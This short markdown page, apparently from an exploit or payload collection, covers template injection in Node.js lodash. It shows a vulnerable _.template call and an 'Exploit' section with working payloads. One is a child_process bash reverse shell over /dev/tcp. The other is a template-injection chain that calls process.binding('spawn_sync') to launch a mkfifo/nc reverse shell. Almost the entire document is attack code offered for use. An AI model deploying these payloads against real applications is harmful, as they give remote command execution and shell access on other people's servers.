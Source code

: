 # NodeJs lodash

## Installation

`$ npm install lodash`

## Vulnerable Source

```nodejs
const _ = require('lodash');
_.template(`hello ${<code-here>}`)();
```

## Exploit

```nodejs
require("child_process").exec("bash -c \\"bash -i >& /dev/tcp/127.0.0.1/4444 0>&1\\"")

${x=Object}${w=a=new x}${w.type="pipe"}${w.readable=1}${w.writable=1}${a.file="/bin/sh"}${a.args=["/bin/sh","-c","rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f"]}${a.stdio=[w,w]}${process.binding("spawn_sync").spawn(a).output}
```

